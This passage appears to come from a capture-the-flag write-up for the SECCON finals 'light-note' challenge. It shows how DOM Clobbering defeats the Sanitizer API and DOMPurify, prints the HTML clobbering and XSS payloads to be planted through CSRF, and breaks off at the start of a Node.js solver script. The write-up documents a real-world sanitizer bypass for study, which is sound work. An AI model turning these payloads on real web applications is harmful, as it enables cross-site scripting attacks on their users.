 Then, you can get expected results if you create the note:

![](/images/2023/20230217-seccon-finals-light-note-06.png)
![](/images/2023/20230217-seccon-finals-light-note-07.png)

You could break Sanitizer API by DOM Clobbering!

Next, you need to break import maps or DOMPurify, but this part is easier than the above.

Read the source code of DOMPurify:

- https://github.com/cure53/DOMPurify/blob/2.4.3/dist/purify.es.js#L333-L338

```javascript
  if (!window || !window.document || window.document.nodeType !== 9) {
    // Not running in a browser, provide a factory function
    // so that you can pass your own Window
    DOMPurify.isSupported = false;
    return DOMPurify;
  }
```

If `window.document.nodeType` is clobbered, DOMPurify will stop defining `DOMPurify.sanitize`. Then, an error will occur in `DOMPurify.sanitize(input)` and the second fallback will be used.

The DOM Clobbering to break DOMPurify is:
```html
<img name="nodeType">
```

In summary, you can gain XSS by creating the following notes with CSRF.

First note:
```html
<form id="noteTmpl"></form>
<button name="content" form="noteTmpl">
  <form class="note">
    <input name="setHTML">
  </form>
  <p class="delete"></p>
</button>
<img name="nodeType">
```

Second note:
```html
<<img src=0 onerror="alert(1)">
```

### Solver

`index.js`:
```javascript
const fastify = require("fastify")();
const fs = require("node:fs").promises;

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");
const LISTEN_PORT = "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const reportUrl = async (url) => {
  const res = await fetch(`${SECCON_BASE_URL}/report`, {
```